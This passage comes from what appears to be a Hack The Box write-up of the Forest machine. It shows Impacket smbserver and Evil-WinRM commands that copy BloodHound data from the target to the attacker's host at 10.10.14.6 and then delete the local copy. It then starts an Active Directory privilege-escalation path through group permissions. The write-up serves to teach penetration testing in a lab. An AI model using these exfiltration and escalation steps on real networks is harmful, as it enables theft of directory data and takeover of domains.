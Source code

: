 I’ll use `smbserver.py` to exfil the results. On my box:

```

root@kali# smbserver.py share . -smb2support -username df -password df
Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation

[*] Config file parsed                                   
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed                                   
[*] Config file parsed                                   
[*] Config file parsed     

```

Now on Forest:

```
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> net use \\10.10.14.6\share /u:df df
The command completed successfully.
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> copy 20191018035324_BloodHound.zip \\10.10.14.6\share\
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> del 20191018035324_BloodHound.zip   
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> net use /d \\10.10.14.6\share
\\10.10.14.6\share was deleted successfully.

```

#### Load Data

I covered the [installation of Bloodhound in my Reel writeup](/2018/11/10/htb-reel.html#bloodhound). I’ll load the data by clicking the 

![1571511000876](https://0xdfimages.gitlab.io/img/1571511000876.png)
button on the right side, and selecting my zip exfil. Under “Queries”, I’ll click “Find Shorter Paths to Domain Admin”, and get the following graph:

![1571511066627](https://0xdfimages.gitlab.io/img/1571511066627.png)

### Path

There’s two jumps needed to get from my current access as svc-alfresco to Administrator, who is in the Domain Admins group.

#### Join Exchange Windows Permissions Group

Because my user is in Service Account, which is a member of Privileged IT Account, which is a member of Account Operators, it’s basically like my user is a member of Account Operators. And Account Operators has Generic All privilege on the Exchange Windows Permissions group. If I right click on the edge in Bloodhound, and select help, there’s an “Abuse Info” tab in the pop up that displays:

![1571511287322](https://0xdfimages.gitlab.io/img/1571511287322.png)
